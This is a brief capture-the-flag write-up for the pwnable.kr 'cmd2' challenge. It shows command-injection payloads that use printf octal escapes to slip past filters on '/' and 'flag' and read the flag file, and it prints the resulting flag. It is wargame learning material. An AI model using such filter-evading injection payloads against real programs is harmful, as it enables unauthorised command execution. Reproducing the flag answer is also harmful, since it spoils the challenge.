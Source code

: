 # Toddler's Bottle - cmd2

> Daddy bought me a system command shell.
>
> but he put some filters to prevent me from playing with it without his permission...
> but I wanna play anytime I want!

The source code in `cmd2.c` is very similar to the cmd1 challenge.
For the `cmd1` challenge, I did the following:

```
$ ./cmd1 '$(printf "/bin/cat %slag" "f")'
```

Unfortunately, right now, forward slashes (`/`) are not allowed anymore. By escaping those characters, I still can work around that:

```
cmd2@pwnable:~$ ./cmd2 '$(printf "\057bin\057cat %slag" "f")'
$(printf "\057bin\057cat %slag" "f")
FuN_w1th_5h3ll_v4riabl3s_haha
```
